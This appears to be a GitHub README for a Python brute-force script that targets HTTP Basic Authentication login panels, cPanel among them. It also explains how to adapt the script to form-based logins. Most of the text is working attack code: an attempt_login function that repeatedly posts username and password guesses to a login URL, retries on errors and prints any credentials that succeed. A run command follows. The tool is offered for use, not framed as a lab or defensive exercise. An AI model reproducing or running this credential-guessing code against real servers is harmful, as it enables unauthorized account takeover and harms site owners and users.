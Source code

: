 ### About 


This brute forcing script is made to target HTTP Basic Authentication login panels, not just cpanel.
The script can only work with panels that respond with a 401 Unauthorized error when incorrect credentials are supplied.
However, you can modify the script to work with other types of login panels, depending on the authentication mechanism they use. 

### Example:

### Form-Based Authentication

```
data = urllib.parse.urlencode({'username': u, 'password': p}).encode()
req = urllib.request.Request(login_url, data=data)
```
* Modification:

```
def attempt_login(self, username, password):
    attempt = 0
    success = False
    login_url = f"http://{self.server}/login"

    while attempt < RETRY_LIMIT and not success and not success_event.is_set():
        try:
            data = urllib.parse.urlencode({'username': username, 'password': password}).encode()
            req = urllib.request.Request(login_url, data=data)

            with urllib.request.urlopen(req) as response:
                if response.getcode() == 200:
                    print(f"SUCCESS: Username: {username} Password: {password}")
                    success_event.set()
                    success = True

        except urllib.error.HTTPError as e:
            print(f"Failed Login - User: {username} Password: {password}")
        except Exception as e:
            print(f"Connection error for {username}:{password} - Retry {attempt + 1}")
        attempt += 1
```

* You can see the help menu by running:

```
python bruteforce.py
```
